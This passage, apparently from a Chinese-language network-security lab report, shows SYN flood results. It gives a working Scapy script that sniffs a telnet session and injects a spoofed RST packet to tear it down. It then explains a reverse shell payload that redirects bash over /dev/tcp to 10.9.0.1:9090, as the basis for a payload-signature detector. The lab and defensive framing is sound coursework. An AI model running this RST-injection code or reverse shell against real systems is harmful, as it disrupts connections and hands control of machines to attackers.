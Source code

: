 ![19](20.JPG)

然后在`docker1`中使用`netstat -nat`查看，可以看到出现了许多状态为`SYN_RECV`的套接字，说明只进行了第一次握手，并没有后续的 `TCP`连接请求。

![20](19.JPG)

### 7、TCP  Attack

自动攻击的代码`AutoAttack.py`如下，因为容器默认在同一网段，所以我们设置了`RST`报文的`TTL=120`，用于区分。

```python
#!/usr/bin/env python3
from scapy.all import *

pkts = []
def add(pkt):
    pkts.append(pkt)

def spoof_pkt(pkt):
    ip = IP(src="10.9.0.6", dst="10.9.0.5", ttl=120)
    tcp =TCP(sport=pkt[TCP].sport, dport=23, flags='R', seq=pkt[TCP].seq, ack=pkt[TCP].ack)
    pkt = ip/tcp
    ls(pkt)
    send(pkt, verbose=0)

pkt = sniff(iface='br-cf6ac9fb1896', filter='tcp and src host 10.9.0.6 and dst host 10.9.0.5 and dst port 23', prn=add)
spoof_pkt(pkts[-1])
```

先在`docker3(10.9.0.1)`上运行攻击程序，然后在`docker2(10.9.0.6)`上与`docker1(10.9.0.5)`建立`telnet`连接，`ctrl+c`中断程序，然后观察到`docker2`上的`telnet`连接中断。

![21](21.JPG)

![22](22.JPG)

## 二、防御系统设计

### 1、基于报文负载特征的检测

#### ① 反向`shell`

反向`shell`的攻击流量见`remote_cotrol.pcap`，攻击负载见下图：

`/bin/bash -i`：`i`代表交互`interactive`，意味着`shell`必须是交互的；

`> dev/tcp/10.9.0.1/9090`：导致`shell`的输出被重定向到`tcp`连接的`10.9.0.1`的`9090`端口，标准输出由文件描述符`1`表示；

`0<&1`：文件描述符`0`表示标准输入`(stdin)`，从`tcp`连接获取`shell`的输入；

`2>&1`：文件描述符`2`表示标准错误`(stderr)`，使得错误输出被重定向到`tcp`连接。

因此在检测时，只需要判断`payload`是否包含与攻击相关的重定向符即可，因为没有重定向符是无法交互的。
